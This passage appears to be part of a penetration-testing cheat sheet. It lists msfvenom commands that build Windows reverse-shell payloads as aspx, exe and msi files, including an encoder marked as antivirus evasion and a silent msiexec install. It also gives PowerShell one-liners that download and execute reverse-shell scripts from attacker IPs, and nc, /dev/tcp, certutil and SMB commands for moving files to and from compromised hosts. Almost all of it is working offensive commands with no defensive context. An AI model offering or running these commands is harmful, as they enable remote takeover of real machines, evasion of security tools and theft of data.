 	        - `nc` to receive
	- aspx
		- `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT}  -f aspx > shell.aspx`
		- `msfvenom -p windows/shell/reverse_tcp LHOST={IP} LPORT={PORT}  -f aspx > shell.aspx`
	- exe
		- `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -f exe > shell-x86.exe`
		- `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -e x86/shikata_ga_nai -f exe > shell.exe`
			- Anti-Anti-virus
        - `msfvenom -p windows/x64/shell_reverse_tcp LHOST={IP} LPORT={PORT}  -f exe -o shellx64.exe`
            - Most of time, x64 system can also run x86 shell
    - msi
        - `msfvenom -p windows/x64/shell_reverse_tcp LHOST={IP} LPORT={Port} -f msi -o shellx64.msi`
            - Install by `msiexec /quiet /i shellx64.msi`

- Powershell
	- [Invoke-PowerShellTcp](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
	    - `powershell iex (New-Object Net.WebClient).DownloadString('http://{my_ip}:{http_port}/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress {my_ip} -Port {shell_port}`
	    - Add `Invoke-PowerShellTcp -Reverse -IPAddress {IP} -Port {Port}` in the last line, and `powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.35/Invoke-PowerShellTcp1.ps1')`
    - [mini-reverse.ps1](https://gist.github.com/Serizao/6a63f35715a8219be6b97da3e51567e7/raw/f4283f758fb720c2fe263b8f7696b896c9984fcf/mini-reverse.ps1)
        - `powershell IEX (New-Object Net.WebClient).DownloadString('http://10.1.1.246/mini-reverse.ps1')`
### File Transmission - Linux
- SCP
- HTTP
	- Prepare
		- `python3 -m http.server`
			- use `sudo` to `get` 80 port
	- GET
		- `wget {my_ip}:{port}/{file_name} -O {path_to_output}`
		- `curl -o {path_to_output} http`
- NC
	- Prepare
		- `nc -l -p {attacker_port} > {file}`
	- Send
		- `nc {attacker_ip} {attacker_port} < {file}`
		- `cat {file} > /dev/tcp/{ip}/{port}`
    - TCP
        - `nc -nlvp {Port} < {file}`
        - `cat<'/dev/tcp/{IP}/{Port}' > {file}`
- FTP
    - `python3 -m pyftpdlib -p 21 -w`
### File Transmission - Windows
- HTTP
	- Prepare
		- `python3 -m http.server`
	- GET (Powershell)
		- `wget` , `curl` , `iwr` is alias for `Invoke-WebRequest`
			- `Invoke-WebRequest http://{my_ip}:{my_port}/{file} -outFile {file_name}`
			    - `-UseBasicParsing`
        - `certutil -urlcache -f {URL} {File_name}`
- SMB
	- `impacket-smbserver meow .`
		- In Kali
		- `-smb2support`
	- `copy \\{IP}\meow\{filename} {filename}`
		- In Windows
    - `net view {IP}`
        - Show shares
- Pack file